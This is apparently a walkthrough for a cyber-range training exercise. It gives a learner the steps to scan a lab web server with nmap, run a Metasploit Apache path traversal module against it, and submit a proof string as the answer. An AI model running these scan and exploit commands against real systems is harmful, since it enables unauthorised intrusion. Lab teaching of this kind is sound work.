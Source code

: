 # Pen Tester Walkthrough

Use this guide for the Pen Tester role.

## Accessing the VM
1. Begin the **Pen Tester** exercise in KYPO.
2. SSH to `attacker` (`10.10.30.10`) with user `kali`.

## Steps
1. Scan the target web server:
   ```bash
   nmap -sV 10.10.10.60
   ```
   - Note the Apache version and add it to KYPO.
2. Launch Metasploit and run the path traversal exploit:
   ```bash
   msfconsole -q
   use exploit/multi/http/apache_path_traversal
   set RHOSTS 10.10.10.60
   run
   ```
   - After success, read `/tmp/proof.txt` and submit the string found in KYPO.

## Documenting Findings
Record the version and proof string in the appropriate answer fields for the **Pen Tester** exercise.
